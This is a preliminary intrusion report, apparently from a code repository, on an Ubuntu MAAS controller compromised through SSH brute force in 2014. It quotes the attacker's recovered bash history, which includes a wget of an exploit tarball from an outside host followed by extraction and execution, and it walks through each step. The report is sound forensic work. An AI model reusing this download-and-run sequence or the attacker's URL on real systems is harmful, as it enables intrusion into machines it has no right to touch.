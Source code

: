 

# Preliminary Intrusion Report

## Introduction
This document is a first glance over the system compromised on the 23rd of November 2014.  It is largely an account of casual observation, following anything that looks vaguely aberrant by observation of the filesystem.

The machine in question is running the latest verion of [MAAS](https://maas.ubuntu.com/)' ubuntu-based distribution, configured as a controller.  It was compromised by way of SSH bruteforce against an entirely stock SSHd configuration, which we were unaware was even running.  The account compromised ('daniel') had sudo access.  The hostname was 'glasgow'.

The investigations below took place on a cloned disk, mounted read-only by a kernel and root medium that was subsequently erased, on a machine disconnected from the network.


### Files Accompanying this report
Within the `files.tar.gz` tarchive you'll find all of the logs used in this report, along with the exploit binaries and copies of the archives identified as the source.  Additionally, the forum post that seems to be the origin of the SSH brute forcing tool is provided in HTML format under the `scanner-docs/` directory.


## Activity Logs
First up, the most obvious place to look: this guy left `~/.bash_history` behind.  The first twelve lines of which are:

    w
    ls
    passwd
    ifconfig
    cat /proc/cpuinfo
    wget http://descargarcs.net63.net/fv/ghh.tgz
    tar -zxf ghh.tgz
    rm -rf ghh.tgz
    chmod +x *
    cd .vogz
    chmod +x *
    screen


At the top of this, the attacker downloads a package from [descargarcs.net63.net/fv/ghh.tgz](http://descargarcs.net63.net/fv/ghh.tgz), which is contained in the `files/` directory next to this report.  I'll get back to this later.

His commands essentially run to:

 1. Check no-one's around who could mess with me (`w`)
 2. See what's fun in `~daniel/`
 3. Change the password (to prevent further login during this session?  This seems like a silly thing to do since it gets you noticed)
 4. Check the architecture of the machine, to ensure the precompiled binaries run (`cat /proc/cpuinfo`)
 5. Grab the exploit code, along with some sundry tools
 6. Extract everything into a temp dir, and clean up the old archive.
 7. Set the execute bits and disappear into the version of screen that came in the tarchive
